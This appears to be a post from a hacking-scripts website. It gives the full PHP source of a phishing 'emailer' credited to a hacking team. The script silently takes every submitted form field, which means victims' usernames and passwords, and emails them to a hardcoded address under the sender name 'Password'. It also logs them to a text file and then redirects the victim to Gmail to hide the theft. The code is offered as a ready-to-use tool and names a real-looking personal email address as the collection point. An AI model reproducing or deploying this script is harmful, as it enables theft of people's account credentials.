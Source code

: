 ```yaml
---
id: 237
title: Emailer script
author: admin
layout: post
guid: http://hackingscripts.com/?p=237
permalink: /emailer-script/
categories:
  - PHP
tags:
  - emailer
  - PHP
---
```

Emailer script &#8211; Coded by Hangaw_HawlerY of H4KurD-TeaM

### Emailer Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php

/* 
H4KurD-TeaM
www.h4kurd.com
Coded By : Hangaw_HawlerY
Email: Hangaw_HawlerY@Yahoo.com , Hangaw_HawlerY@Hotmail.com 
All Right Reserved
*/

header ('Location: https://www.gmail.com');

$posts        = '';
foreach($_POST as $k =&gt; $v){
    $posts .= '$_POST['.$k.'] = '.$v."\n";
}

$posts       .= "---------------------------------------------------\n";
$emailto    = 'pramod.sin321@gmail.com';
$subject    = $_SERVER['HTTP_HOST']."-".$_SEREVER['SERVER_NAME'];
$from        = "From: Password &lt;h4kurd.team@gmail.com&gt;";
$body        = '
'.$posts.'
';

@mail($emailto, $subject, $body, $from);
$handle = @fopen("h4kurd.txt", "a+");
@fwrite($handle, $posts);
fclose($handle);
?&gt;
</pre>